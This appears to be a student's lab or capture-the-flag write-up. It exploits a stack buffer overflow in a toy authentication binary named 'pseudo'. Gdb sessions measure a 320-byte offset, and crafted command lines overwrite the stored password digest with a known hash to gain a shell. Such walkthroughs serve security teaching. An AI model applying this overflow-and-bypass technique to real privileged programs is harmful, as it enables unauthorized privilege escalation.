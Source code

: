 Use the strategy documented in [[echo_cmdline]] to smash `expected_digest` to let us log in with any password

 - `expected_digest` and `cmdline` are 320 bytes apart
```
(gdb) p expected_digest
$3 = "4252fb208a3bcbb14d46a9be43966219650c38132a43ab4c326c603ccc1dbdc8"
(gdb) p &expected_digest
$4 = (char (*)[64]) 0x7fffffffec70
(gdb) p &cmdline
$5 = (char (*)[256]) 0x7fffffffeb30
(gdb) p 0x7fffffffec70 - 0x7fffffffeb30
$6 = 320
```
 - New command, this should smash `expected_digest` and put `hello` in it
	 - The big string should be 320 - 9 = 311 chars long (`320 - len(/bin/sh) - 2 //spaces`)
```
gdb --args env -i ./pseudoyeeeeet VladimirRootin /bin/sh AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFGGGGGGGGGGG hello
```
```
(gdb) p &expected_digest
$1 = (char (*)[64]) 0x7fffffffeb20
...
(gdb) p &cmdline
$2 = (char (*)[256]) 0x7fffffffe9e0
(gdb) p 0x7fffffffeb20 - 0x7fffffffe9e0
$3 = 320
...
(gdb) p expected_digest
$4 = "hello\n\000\060\070a3bcbb14d46a9be43966219650c38132a43ab4c326c603ccc1dbdc8"
```
 - I can successfully overwrite the expected digest
 - Get the hash for a password we know
```
(gdb) n
password for VladimirRootin: hello
(gdb) p actual_digest
$6 = "2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824"
```
 - New command:
```
gdb --args env -i ./pseudoyeeeeet VladimirRootin /bin/sh AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFGGGGGGGGGGG 2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824
```
 - When we target `pseudo` instead of our pseudo we can get in
```
env -i pseudo VladimirRootin /bin/sh AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFGGGGGGGGGGG 2cf24dba5fb0a30e26e83b2ac5b9e29e1b161e5c1fa7425e73043362938b9824
😸: Found passwd entry for 'VladimirRootin' (255)
Upon successful authentication, I shall execve into:
/bin/sh AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEpassword for VladimirRootin:
Authenticated as VladimirRootin (uid: 255)
$ whodat
 _________________________
< Dat be 'VladimirRootin' >
 -------------------------
        \    ,-^-.
         \   !oYo!
          \ /./=\.\______
               ##        )\/\
                ||-----w||
                ||      ||

               Cowth Vader
There is a great discovery still to be made in Literature: that of
paying literary men by the quantity they do NOT write.
```
